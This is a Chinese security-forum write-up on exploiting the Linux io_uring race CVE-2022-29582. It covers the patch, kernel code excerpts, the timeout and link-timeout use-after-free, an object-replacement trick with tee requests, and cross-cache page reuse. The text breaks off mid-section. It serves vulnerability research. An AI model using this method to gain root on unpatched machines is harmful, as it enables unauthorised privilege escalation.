

# Linux kernel exploit:CVE-2022-29582 - 先知社区

Linux kernel exploit:CVE-2022-29582

* * *

原作者给的利用代码是有问题的,不过如果认真看了作者的文章的话还是能搞出来的.  
附件在评论区.

# 前言

CVE-2022-29582是Linux kernel里的一个io\_uring子系统本地提权漏洞,默认版本可用,评分7.0.

**影响版本**:从v5.10到v5.12的主线版本存在漏洞，对于长期维护的版本，5.10.109修复了此漏洞.

**测试版本**:Linux 5.10.90.

**编译选项**:

```plain
CONFIG_E1000=y
CONFIG_E1000E=y
CONFIG_BINFMT_MISC=y
CONFIG_TLS=y
CONFIG_TLS_DEVICE=y
CONFIG_TLS_TOE=y
```

**补丁**

```plain
diff --git a/fs/io_uring.c b/fs/io_uring.c
index fafd1ca4780b6..659f8ecba5b79 100644
--- a/fs/io_uring.c
+++ b/fs/io_uring.c
@@ -1736,12 +1736,11 @@ static __cold void io_flush_timeouts(struct io_ring_ctx *ctx)
    __must_hold(&ctx->completion_lock)
 {
    u32 seq = ctx->cached_cq_tail - atomic_read(&ctx->cq_timeouts);
+   struct io_kiocb *req, *tmp;

    spin_lock_irq(&ctx->timeout_lock);
-   while (!list_empty(&ctx->timeout_list)) {
+   list_for_each_entry_safe(req, tmp, &ctx->timeout_list, timeout.list) {
        u32 events_needed, events_got;
-       struct io_kiocb *req = list_first_entry(&ctx->timeout_list,
-                       struct io_kiocb, timeout.list);

        if (io_is_timeout_noseq(req))
            break;
@@ -1758,7 +1757,6 @@ static __cold void io_flush_timeouts(struct io_ring_ctx *ctx)
        if (events_got < events_needed)
            break;

-       list_del_init(&req->timeout.list);
        io_kill_timeout(req, 0);
    }
    ctx->cq_last_tm_flush = seq;
@@ -6628,6 +6626,7 @@ static int io_timeout_prep(struct io_kiocb *req, const struct io_uring_sqe *sqe,
    if (data->ts.tv_sec < 0 || data->ts.tv_nsec < 0)
        return -EINVAL;

+   INIT_LIST_HEAD(&req->timeout.list);
    data->mode = io_translate_timeout_mode(flags);
    hrtimer_init(&data->timer, io_timeout_get_clock(data), data->mode);
```

**成功截图**:

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626151731-83c842ea-13f1-1.png)

# 漏洞详解

漏洞主要是io\_uring中`IORING_OP_TIMEOUT`操作和`IORING_OP_LINK_TIMEOUT`操作导致的条件竞争漏洞

## io\_uring

**io\_uring** 是 Linux 内核提供的一种高性能、低延迟的 **I/O** 处理方式，可以用来优化文件和网络 **I/O** 操作，它是在传统的 **AIO**（异步 I/O）系统调用基础上进行改进而得到的，与传统的 **AIO** 系统调用不同的是，**io\_uring** 子系统在内核中实现了一个环形缓冲区，**I/O** 操作被提交到该缓冲区中，然后由内核自动处理这些操作，以减少应用程序在 I/O 中的 CPU 占用率，

## 如何使用io\_uring?

1.使用`io_uring_setup()`函数或者`io_uring_queue_init()`函数或者`io_uring_queue_init_params()`函数来创建或者初始化缓冲区.

2.向 **io\_uring** 的`submission queue`中添加 **I/O** 操作请求.可以将 **I/O** 操作请求打包成一个 `struct io_uring_sqe` 结构,并调用 `io_uring_submit()` 函数(**liburing**库中对`io_uring_enter`系统调用的封装,更方便)将其添加到提交队列中.  
这里有个重要概念:

*   提交队列:submission queue (**SQ**)
*   完成队列:completion queue (**CQ**)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626152913-2630fc1a-13f3-1.png)

当我们希望提交一个操作请求时，需要在共享的 **SQ** 空间中填写一个提交队列条目`submission queue entry`(**SQE**)，然后，我们可以使用`io_uring_submit()`函数来提交填写的一定数量的 **SQEs**，内核会从 **SQ** 中检索指定数量的 **SQEs**  
**SQE** 是一个结构体，用于编码内核将为我们执行的单个（**I/O**）操作，一旦提交就会以异步方式执行，

```plain
struct io_uring_sqe {
    __u8    opcode;     /* type of operation for this sqe */
    __u8    flags;      /* IOSQE_ flags */
    __u16   ioprio;     /* ioprio for the request */
    __s32   fd;     /* file descriptor to do IO on */
    union {
        __u64   off;    /* offset into file */
        __u64   addr2;
    };
    union {
        __u64   addr;   /* pointer to buffer or iovecs */
        __u64   splice_off_in;
    };
    __u32   len;        /* buffer size or number of iovecs */
    union {
        __kernel_rwf_t  rw_flags;
        ...
        __u32       timeout_flags;
        ...
        __u32       splice_flags;
    };
    __u64   user_data;  /* data to be passed back at completion time */
    union {
        struct {
            /* pack this to avoid bogus arm OABI complaints */
            union {
                /* index into fixed buffers, if used */
                __u16   buf_index;
                /* for grouped buffer selection */
                __u16   buf_group;
            } __attribute__((packed));
            /* personality to use, if used */
            __u16   personality;
            __s32   splice_fd_in;
        };
        __u64   __pad2[3];
    };
};
```

其它的字段对本文来说都不重要,重要的是`opcode`字段,用于指定 **I/O** 请求的类型，如读取、写入、连接、关闭、**等待指定时间**等，

3.一旦请求的操作完成，相应的 **SQE** 将被写入完成队列 (**CQ**)，这样的条目称为完成队列条目`completion queue entry` (**CQE**)，包含错误码和结果值等字段，用户空间应用程序可以轮询 CQ 获取新的条目，以确定已提交的 **SQEs** 是否已经完成处理，以及它们的结果是什么，可以调用 `io_uring_wait_cqe()` 函数等待完成事件，并使用 `struct io_uring_cqe` 结构来获取 **I/O** 操作的结果，

4.处理 **I/O** 操作的结果，如果 **I/O** 操作成功完成，则可以从缓冲区中读取数据或者向缓冲区中写入数据；如果发生错误，则需要进行相应的错误处理，

5.重复执行步骤 2-4，直到所有的 **I/O** 操作都已经完成，

可能已经有读者猜到了漏洞触发的一个必备的操作就是将`struct io_uring_sqe` 中的`opcode`赋予`IORING_OP_TIMEOUT`操作码和`IORING_OP_LINK_TIMEOUT`操作码.但是这里又产生了一个问题:  
这两个操作码能不能赋予同一个`struct io_uring_sqe`,如果能的话,那岂不是乱了套?(比如同时把读取和写入都赋予同一个`opcode`)如果不能的话,那就是两个不相关的结构,如何产生竞争漏洞?

所以在这里介绍一个在io\_uring 提交队列中的一种特殊类型:**Linked SQEs**

## Linked SQEs

通过链接多个 **SQEs**，可以实现更复杂的 **I/O** 操作序列，例如读取和写入数据到不同区域，或在 **I/O** 操作期间执行其他任务，这些操作可以通过将一个或多个 **SQEs** 链接起来来实现，

在使用 **Linked SQEs** 时，需要在 **SQE** 结构体中设置 **flags** 字段的 `IOSQE_IO_LINK` 标志位，以指示该 **SQE** 是一个被链接的 **SQE**，将多个请求与 `IOSQE_IO_LINK` 标志链接在一起形成一个链之后，我们可以按顺序执行链，

如果单个链中的任何链接发生故障，则整个链都失败，单独的链仍然可以同时执行，因为它们不是相对于彼此排序的，

也许有读者猜出来如何触发漏洞了,没错,将带有`IORING_OP_TIMEOUT`操作码和带有`IORING_OP_LINK_TIMEOUT`操作码的`struct io_uring_sqe`放在同一个链上.

## 超时操作:IORING\_OP\_TIMEOUT

io\_uring 允许我们为 I/O 操作设置超时时间，我们可以提交一个 **opcode** 设置为 `IORING_OP_TIMEOUT`、带有超时时间 **T** (`struct timespec`) 和可选完成事件计数 C 的 **SQE**，来实现超时功能，请求可能成功或失败并返回 `-ETIME` 错误码，

*   当指定的超时时间 **T** 已经过去时：  
    1.一个高精度定时器 (`hrtimer`) 启动，会导致请求被取消并返回错误码 `-ETIME`
*   （可选）当完成事件计数 **C** 的其他请求已经完成时：  
    1.在每次请求完成（刷新）后，会检查挂起的超时时间，  
    2.如果一个超时时间已经达到了其完成事件计数，那么它就算成功，

在这两种情况下，都会向等待在完成队列上的任何人发布唤醒事件（例如通过`IORING_ENTER_GETEVENTS`）来通知它们请求已经完成，  
如果 C 被设置为零，该请求就只是一个纯粹的定时器，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153215-92c5e4ee-13f3-1.jpeg)

根据上面的图表，我们来精确地分析下发生了什么，我们用 **Tᶜ** 表示超时时间 **T** 剩余的完成事件数量，所以一开始时，{**Cᶜ**, **Dᶜ**, **Eᶜ**} = {2, 2, 5}

*   **T+0000**纳秒：**A** 完成（并发布完成事件），因此超时时间需要少完成一个才能成功：{**Cᶜ**, **Dᶜ**, **Eᶜ**} = {1, 1, 4}
*   **T+1000**纳秒：**B** 完成并且 E 的计时器触发，  
    1.E 向 CQ 发布唤醒事件，然后以 `-ETIME` 错误码完成，  
    2.B 的完成事件导致 {**Cᶜ**, **Dᶜ**} = {0, 0}，所以 **C**、**D** 成功，另外两个唤醒事件被发布到 CQ，

注意，超时本身也会发布完成事件，因此这可能会很快变得难以推理，

## 超时操作:IORING\_OP\_LINK\_TIMEOUT

我们发现，`IORING_OP_TIMEOUT` 只关心其过去的完成数量是否满足它正在等待的完成数量，但有时候我们希望创建一个针对特定操作的超时时间，`IORING_OP_LINK_TIMEOUT` 操作码正是为此而设计的，我们发送带有 `IOSQE_IO_LINK` 标志的原始 SQE，紧接着，在它之后，我们添加一个 `IORING_OP_LINK_TIMEOUT` **SQE**，并提交链接的 **SQEs** 来设置我们期望的超时时间，  
两个操作将同时开始，并遵循以下逻辑：

*   如果指定的超时时间已经过去（即超时操作成功），则取消原始操作，
*   如果原始操作已经完成，则取消超时操作本身，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153252-a8ee3f28-13f3-1.jpeg)

假设 **X** 是一个操作，那么我们会用 **Xᴸᵀ** 表示它的链接超时，该图表位于 **A** 和 **B** 被提交 **T+1000ns** 的位置，

*   **Aᴸᵀ** 触发，**Aᴸᵀ** 完成并且 **A** 被取消，
*   **B** 完成，因此 **Bᴸᵀ** 被取消，

这些超时的介绍，包括动机和用例，可以参考以下LWN主题：[IORING\_OP\_TIMEOUT](https://lwn.net/Articles/800308/)[IORING\_OP\_LINK\_TIMEOUT](https://lwn.net/Articles/803932/)

## IORING\_OP\_TEE请求

虽然 `IORING_OP_TEE` 请求与漏洞本身并不直接相关，但我们需要它们来进行利用，简单地说，使用 `tee`，我们可以将一个管道的内容接到另一个管道上，  
从SQE的角度来看，`splice_fd_in`是要读取的文件描述符，`fd`是要写入的文件描述符，  
在`io_kiocb`方面，`splice.file_in`指向与给定`splice_fd_in`相关联的文件对象，  
请阅读[io\_uring\_enter](https://manpages.debian.org/unstable/liburing-dev/io_uring_enter.2.en.html)和[tee](https://man7.org/linux/man-pages/man2/tee.2.html)手册页面，了解更多有关tee的信息，

## 将超时和链路超时结合起来

为了进行实验，让我们考虑当我们尝试将一个 `IORING_OP_TIMEOUT` 请求 `T` 与其自己的 `IORING_OP_LINK_TIMEOUT` `LT` 结合起来时会发生什么，当然，我们需要为 `T` 指定 `IOSQE_IO_LINK` 标志，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153414-d9d52552-13f3-1.png)

从之前的部分我们可以尝试推导这样一个请求链的行为，根据文档，让我们推断一下 **T** 和 **LT** 的不同状态，

*   case 1：**LT**在**T**之前超时，
    *   **T**被取消（CQ条目中带有`-ECANCELED`，然后被销毁）
    *   **LT**完成（CQ条目带有`-ETIME`，然后被销毁）
*   case 2：**T**在**LT**之前超时，
    *   **T**完成（CQ条目带有`-ETIME`），然后被销毁
    *   **LT**被取消（CQ条目中带有`-ECANCELED`，然后被销毁）
*   case 3：在**LT**超时之前，T完成事件计数已达到，
    *   和情况2一样，  
        验证我们的断言是否正确是了解目标更多的好方法，我们还可以尝试查找一些具有语义的状态，这些状态不能仅从规范中推断出来，并对它们进行更详细的调查，
*   case 4: **T**与**LT**同时完成（这包括多种可能的状态）
    *   ..我们真的不知道会发生什么，对吗？  
        既然我们无法从文档中直接得出答案，那么我们需要深入到实现细节中去探究，这种情况听起来就像是一个“边界条件”，

## 研究边界条件

好的，让我们开始吧，我们将解决提到的第四种情况会发生什么，为了简洁起见，我们只处理后面相关的部分，

## 分析：链接T和LT

通过在 **T** 的 **SQE** 中设置 `IOSQE_IO_LINK` 标志，我们声明了 **T** 和 **LT** 之间的链接，具体来说，这个链接是在一个循环双向链表中的两个节点之间的引用，每个 `struct io_kiocb` 中都嵌入了一个节点，这个节点通过 `link_list` 字段表示，这意味着 `T.link_list.next` 被设置为 `LT`，而 `LT.link_list.prev` 被设置为 `T`

```plain
static int io_submit_sqe(struct io_kiocb *req, 
                         const struct io_uring_sqe *sqe,
              struct io_kiocb **link, struct io_comp_state *cs)
{
    if (*link) {
        struct io_kiocb *head = *link;
        list_add_tail(&req->link_list, &head->link_list);
```

## 分析：通过flushing完成 T

记得如果在 **T** 的计时器到期之前已经发布了 **C** 个完成事件，**T** 将会完成，假设 **C** = 1，**B** 是任意请求，在完成其操作后发布一个完成事件，  
完成**B**后，我们会刷新与此`io_uring`实例（`io_ring_ctx`）关联的所有超时，为了实现这一点，我们会遍历`timeout_list`，如果已完成的事件数大于**C**，则会终止超时，即在本例中为**T**：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153506-f89dbf44-13f3-1.png)

除了取消内部定时器外，在`io_kill_timeout()`中，我们由于将其从`timeout_list`中移除而减少**T**引用计数，如果引用计数现在为**0**，则销毁工作将被排队在未来执行，

## 分析：通过定时器触发完成LT，

请记住，如果LT的计时器在**T**完成之前触发，**LT**将会完成，当这种情况发生时，`hrtimer`回调函数`io_link_timeout_fn`将通过`hardirq`被调用，

```plain
static enum hrtimer_restart io_link_timeout_fn(struct hrtimer *timer)
{
    struct io_timeout_data *data = container_of(timer,
                                    struct io_timeout_data, timer);
    struct io_kiocb *req = data->req;
    struct io_ring_ctx *ctx = req->ctx;
    struct io_kiocb *prev = NULL;

    spin_lock_irqsave(&ctx->completion_lock, flags);

    if (!list_empty(&req->link_list)) {

            prev = list_entry(req->link_list.prev, struct io_kiocb, link_list);
            if (refcount_inc_not_zero(&prev->refs))
                list_del_init(&req->link_list);
            else
                prev = NULL;
    }

    spin_unlock_irqrestore(&ctx->completion_lock, flags);

    if (prev) {
        io_async_find_and_cancel(ctx, req, prev->user_data, -ETIME);
        io_put_req_deferred(prev, 1);
    } else {   
        io_cqring_add_event(req, -ETIME, 0);
        io_put_req_deferred(req, 1);
    }
    return HRTIMER_NORESTART;
}
```

内部控制流大致如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153601-193140fa-13f4-1.png)

最有趣的是当`LT.link_list`不为空且`T.refs == 0`时的状态，如果满足这些条件，那么我们将转到图表的左下方，未能从`link_list`中删除LT，看起来相当可疑...  
仔细思考一下：**LT**已经完成，这意味着它将被销毁（回收内存），但是从**T**到**LT**的引用仍然存在，看起来我们正在追踪一个 bug ，但要得出任何结论，我们仍然需要回答一个问题：在实践中，**T**的引用计数是否可能与**LT**的定时器同时触发为0？

## 分析：T和LT的并发完成

我们现在知道了这两种操作是如何单独工作的，那么让我们将它们组合成并发操作！特别是那些违反内存安全性的操作，  
橙色代表内核线程路径，每当需要刷新**T**时就会命中该路径；蓝色代表**hrtimer**硬件上下文，每当**LT**的定时器触发时就会命中该上下文，  
如果在`io_link_timeout_fn`检查**T**的引用计数之前，**T**的引用计数已被递减，则不会调用`list_del_init`将**LT**从`link_list`列表中删除，  
这在非常特定的情况下可能会成为问题：要达到此状态，**T**必须已经计划进行销毁，这意味着**LT**的销毁时间总是比**T**晚，但是如果**LT**在**T**被销毁之前就被释放了会发生什么？没错，出现悬空引用！

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153822-6d4f5514-13f4-1.png)

在内部，延迟销毁是使用内核工作实现的，这是一个在软中断之上的抽象，事实证明，实际上两个不同的工作条目可以按照它们的初始队列时间以不同的顺序执行，这可能发生在将工作排队到具有不同工作负载的不同 CPU 时，或者说，只是纯粹的运气，  
现在看起来我们已经有了一个真正的 bug，但是如果从未对悬空引用进行解引用，那么它将毫无用处，

## 竞争延迟任务

此时，我们已经推迟了**T**和**LT**的销毁，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153837-769dfb0c-13f4-1.png)

当这些工作线程启动时，我们将在`io_free_req()`中进行竞争，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153851-7e993966-13f4-1.png)

紫色代表销毁**T**的任务，绿色代表销毁**LT**的任务，正如我们所看到的，有可能会出现**LT**在**T**从`link_list`中检索它之前某个时刻被释放的竞争序列，在此序列之后的任何时候访问**LT**都将是一种 `Use-After-Free` 错误，换句话说，我们发现了我们的 bug！

# 漏洞利用

简述这个 bug：当 **T** 被销毁时，它保留了一个悬空的引用并会跟随该引用指向 **LT**

## 替换 LT

为了利用这个 `Use-After-Free` bug，我们执行对象替换，其目的在于重新分配另一个对象 **LT'** 到 **LT** 的地址上，以便在内核期望看到 **LT** 的位置引导控制流，对象替换是可能的，因为在 **LT** 被释放后，内核堆分配器可以回收 **LT** 的底层内存来为另一个分配（**LT'**）服务，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153919-8f4c6cd8-13f4-1.png)

有些情况下，动态替换一个对象很容易，但我们受到两个限制：

1.  必须在竞争窗口中分配和初始化 **LT'**，也就是，在 **LT** 被释放之后但是在我们到达不再访问 **LT** 的点之前（例如在 **T** 被释放之后），
2.  **LT'** 只能是另一个 `struct io_kiocb` 对象，由于堆隔离，堆对象根据其类型进行分离，因此在竞争窗口内将其重新分配为不同类型的对象过于困难，

好的，继续从工作线程竞争开始，让我们引入第三个竞争对象！

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626153936-99cd1f2c-13f4-1.png)

我们已经熟悉了紫色和绿色的worker线程，但是新的worker线程是谁？红色工作线程会在紫色尝试访问**LT**之前或期间，用**LT'**替换**LT**，请注意，**LT'**是一个`IORING_OP_TEE`类型的操作请求，

```plain
static int io_tee(struct io_kiocb *req, bool force_nonblock)
{
    struct io_splice *sp = &req->splice;
    struct file *in = sp->file_in;
    struct file *out = sp->file_out;
    unsigned int flags = sp->flags & ~SPLICE_F_FD_IN_FIXED;
    long ret = 0;

    ...
    if (sp->len)
        ret = do_tee(in, out, sp->len, flags);

    io_put_file(req, in, (sp->flags & SPLICE_F_FD_IN_FIXED));
    ...
}
```

`IORING_OP_TEE`请求接受两个文件：从**in**读取数据并将数据拼接（写入）到**out**，这有助于我们利用漏洞：我们可以通过让`do_tee()`从管道端读取来无限期地阻塞它，通过这种方式，我们可以确保**LT'**在我们想要的时间内保持活动状态，稳定地利用漏洞，  
当我们准备好时，我们可以通过写入另一个管道端来使数据可供从**in**读取，这将恢复执行：线程将从`do_tee()`返回并进入`io_put_file()`

## 释放对LT'的引用，

注意:这里的文件和file指的都是`struct file`.

此时，我们用**LT'**替换了**LT**，与紫色工作线程对**LT**的期望相矛盾，如果我们能够在**LT'**上或其所拥有的对象上引发另一个使用后释放，则此操作对我们可能有好处，但是，一旦**LT**与**T**的销毁不再相关，紫色工作线程将不再访问**LT'**  
现在的问题是：紫色工作线程会对**LT'**执行什么操作，**LT'**又如何影响紫色工作线程的控制流程？  
为了回答这个问题，我们将从紫色工作线程第一次使用**LT'**的地方开始，

```plain
static void io_kill_linked_timeout(struct io_kiocb *req)
{
    struct io_ring_ctx *ctx = req->ctx;
    struct io_kiocb *link;
    bool canceled = false;
    unsigned long flags;

    spin_lock_irqsave(&ctx->completion_lock, flags);
    link = list_first_entry_or_null(&req->link_list, struct io_kiocb,
                    link_list);
    /*
     * Can happen if a linked timeout fired and link had been like
     * req -> link t-out -> link t-out [-> ...]
     */
    if (link && (link->flags & REQ_F_LTIMEOUT_ACTIVE)) {
        struct io_timeout_data *io = link->async_data;
        int ret;

        list_del_init(&link->link_list);
        ret = hrtimer_try_to_cancel(&io->timer);
        if (ret != -1) {
            io_cqring_fill_event(link, -ECANCELED);
            io_commit_cqring(ctx);
            canceled = true;
        }
    }
    req->flags &= ~REQ_F_LINK_TIMEOUT;
    spin_unlock_irqrestore(&ctx->completion_lock, flags);

    if (canceled) {
        io_cqring_ev_posted(ctx);
        io_put_req(link);
    }
}
```

内部控制流程大致如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154041-c032c554-13f4-1.png)

由于**LT'**是一个`IORING_OP_TEE`请求，它不是一个活动的超时，这意味着：

1.  再次强调，我们没有从`link_list`中删除**LT'**
2.  由于我们没有尝试取消**LT'**的计时器，我们也没有释放对**LT'**的引用，

好的，很有趣，但是没有什么特别引人注目的，那么让我们继续深入挖掘，在从`io_kill_linked_timeout()`返回后，我们回到`__io_req_find_next()`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154125-da7a7d62-13f4-1.png)

由于`REQ_F_FAIL_LINK`标志确实针对**T**被设置了，我们走了`io_fail_links(T)`这条路径，我们知道**LT'**不是一个活动的超时，这意味着它没有从`io_kill_linked_timeout()`中的`link_list`中删除，因此，`T->link_list.next == LT'`  
从`io_fail_links()`中，释放了两个对**LT'**的引用计数，由于新请求的引用计数初始值为2，因此**LT'**被设置为清除和销毁！现在看起来非常不错！

## 清理LT'

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154141-e3f6636a-13f4-1.png)

**LT'**的清理阶段释放了对`req->spice.file_in`的引用，之后，该文件的引用计数为1，但实际上是否只有一个引用该文件呢？  
不，我们有两个引用：一个来自**LT'**建立时，它的处理线程现在在`do_tee()`中被阻塞，另一个是因为我们首先需要创建**in**管道，因此，我们仍然有一个用户空间文件描述符，它可以解析到**in**文件，

## 释放最后一个文件引用

总结一下我们现在的情况：在触发 `Use-After-Free` 后，我们将 **LT** 重新分配为 **LT'** - 一个 `IORING_OP_TEE` 类型请求，然后我们通过阻塞 `do_tee()` 来在内存中修复了 **LT'**，赢得了这场竞争后，从处理 **T** 销毁的工作线程的角度来看，我们已清理和销毁了 **LT'**，最后，我们将 `Use-After-Free` 提升为管道文件对象上的错误引用计数，  
到目前为止，我们已经走了很长的路程，但在取得 root 权限之前还有很长的路要走，所以让我们继续努力吧 :D，  
记住，我们之所以选择 `IORING_OP_TEE`，是因为它使我们能够稳定利用漏洞，但还有另一个更邪恶的原因，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154202-f0a83e1c-13f4-1.png)

一旦我们通过 **in** 文件使数据可读，就会唤醒 `pipe->rd_wait` 等待队列头，由于 `pipe_readable(pipe)` 现在为 **true**，这将把从 **in** 中读取的数据拼接到 **out** 管道文件上，然后我们从 `do_tee()` 返回到 `io_put_file(req, in, ...)`，其中释放对 **in** 的另一个引用，  
因为我们在销毁 **LT'** 时释放了对 **in** 的引用，所以现在 **in** 的引用计数为0，因此，**in** 将被释放！这给我们带来了非常强大的原语，因为我们从用户模式保留了一个有形的对它的引用，更确切地说，当我们使用相关联的文件描述符调用系统调用时，我们实际上将在内核空间中操作一个已过期的文件对象，

## 越过缓存边界

那么，我们如何处理文件 `Use-After-Free` 问题呢？我们可以仅通过替换另一个对象来解决它，或者部分地覆盖函数指针以实现代码执行吗？  
就像 `io_kiocb` 对象一样，我们再次遇到了堆隔离问题，虽然堆隔离本身并不是安全保护措施，但它可能会无意中防止或使基于堆的漏洞的利用极为困难，与先前不同的是，在这一节中我们实际上将尝试绕过它，在此之前，先了解一些背景知识，

## Slab caches

**SLUB** 分配器（mm/slub.c）根据 **slab** 分配技术组织内核堆，内存的 **slab** 预先被切片成对象大小的单元，此外，**slab** 组成了我们所说的 **slab** 缓存，对我们很重要的是：不同的缓存服务于不同类型的对象，通过这种方式，不同的 **slab** 缓存或堆相互隔离，

我们的文件有自己专用的缓存，称为 **filp**，只能在 **filp** 缓存中分配 `struct file` 对象，这意味着我们不能在文件地址上分配任意对象，因此，我们至少在名义上被限制为将文件重新分配为同一类型的另一个对象，

当然，并不总是这样，有些对象共享同一个缓存，例如，来自通用缓存的对象将与大小相似的其他对象共享缓存（即通用缓存仅基于其对象的最大大小“类型化”），

此外，专用缓存可以合并 - 这意味着尽管它们有不同的名称和管理者，但它们仍然来自相同的底层内存，不幸的是，对于文件对象而言，前一种选项不适用，后一种选项在目标系统上无法使用，

然而，说到底，我们仍然在处理一个分配器，而分配器必须能够重用被释放的内存，如果你思考一下，每个 **slab** 都应该能够在原始内存的层面上合并，对吧？

## 内存层次结构

从更基本的内存页面分配 **Slab**，如果我们使用 [NUMA](https://en.wikipedia.org/wiki/Non-uniform_memory_access)，则将页面分组到不同的节点和区域中.

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154226-fea3f704-13f4-1.png)

现在，我们有一个文件对象，它位于 **Slab** 分配器上，我们不能将其重新分配为更有用的对象（用于覆盖其内容），因此，如果我们保持在 **SLUB** 分配器的级别上，那么我们就走到了死路，但是，在更低的级别上，每个 Slab 都建立在连接的页面之上，这些页面也是分配和释放的对象！让我们仔细思考一下这样做的影响...

## Page use-after-free

如果我们通过某种奇迹能够将底层页面释放回页面分配器，那么我们可能能够重新将页面分配到更有用的 **Slab** 缓存中，我们不仅可以保持对管道文件对象的过时引用，还可以将其扩展为过时的页面引用，  
让我们假设一下页面被释放的含义，首先，将页面返回给页面分配器**（mm/page\_alloc.c）**可能意味着它是空的，这意味着至少我们需要释放与目标文件相邻的所有对象，但这本身并不足够，**SLUB** 分配器继续保留空页面，以防它们在不久的将来需要再次使用，  
空页面和部分空页面通常连接到 CPU 的部分列表中，它是一个部分列表，因为页面是部分空的，它是一个 CPU 列表，因为每个 CPU 都有一个列表，每个 CPU 部分列表由 CPU 缓存管理，所有缓存都由一个通用缓存管理器持有，因此，有一个文件对象管理器、**kmalloc-512** 管理器等等，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154251-0da6dfb4-13f5-1.png)

通用管理器类型 `struct kmem_cache` 描述了每个单独的 **Slab** 缓存，我们文件对象的 **Slab** 缓存名为`“filp”``struct kmem_cache` 对象指向 `struct kmem_cache_cpu`（CPU 缓存描述符）对象，从这些对象中，我们获得两个主要的对象集合，第一个是那些一起坐在部分 Slab 上形成 CPU 部分列表的对象，第二个组成了活动的 **Slab**，活动的 **Slab** 在 **CPU** 缓存描述符中有一个 `struct page *page`，在那里下一个对象将被保留，  
如果一个 **Slab** 是满的，并且不是活动的 **Slab\*\***SLUB **分配器将停止跟踪它，当从该** Slab **返回对象到** SLUB **分配器时，它会重新控制该** Slab**，然后将对象的** Slab\*\* 重新链接到部分列表，

## 我们如何分配一个新页面？

一个极端的情况是缓存中没有可用对象，这时，我们需要请求一个全新的 **Slab**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154320-1ee697b0-13f5-1.png)

在上图中，我们不断尝试从缓存的众多列表中获取 **Slab**，直到最后，我们开始请求一个新的 **Slab**，这个新的 **Slab** 会直接从页面分配器中快速获取，  
这就解释了如何分配一个新页面 - 只需填满缓存中正在使用的所有页面，并让 **SLUB** 分配器请求另一个 **Slab**，这可以通过大量调用分配目标对象的系统调用来完成，对于我们来说，可以通过调用 `open()` 或 `pipe()` 来实现，

## 如何释放一个页面？

假设我们释放一个对象**f**，其页（或分配块）用**P**表示，

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154342-2c4d2f72-13f5-1.png)

在上面的图表中，我们通过`slab_free()`进入，然后为了到达`put_cpu_partial()`，其目的是将对象所在的页放置在CPU部分列表中，我们需要确保这个页先前曾经是满的，并且不是活动页，请记住，满页不计入统计，因此，当来自曾经满页的对象被释放回SLUB分配器时，它的页需要放到部分列表进行跟踪，  
要到达`unfreeze_partials()`，我们需要满足一个非常重要的条件：即“部分数组已满”，这意味着我们将“将现有集合移动到每个节点的部分列表中”（引用注释），跨缓存以以下方式实现此目的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230626154433-4acaa024-13f5-1.png)

在上面的图表中，我们从左侧开始，在先前释放目标页后，逐个释放每个（满）页上的一个对象，直到部分列表允许的最大页数为止，这些页面中的最后一页会触发进入`unfreeze_partials()`，因为它超出了部分列表的容量，  
`unfreeze_partials()`除了将页面移动到节点部分列表外，还有一个额外的目的，如果任何部分页面为空，则页面中的**inuse**为假，因此，我们可以看到，该页被存储以进行丢弃，这将带领我们达成宏伟的目标：丢弃一个页意味着将该页释放回页分配器，  
等一下，不要那么着急！我们还有一些问题需要回答：

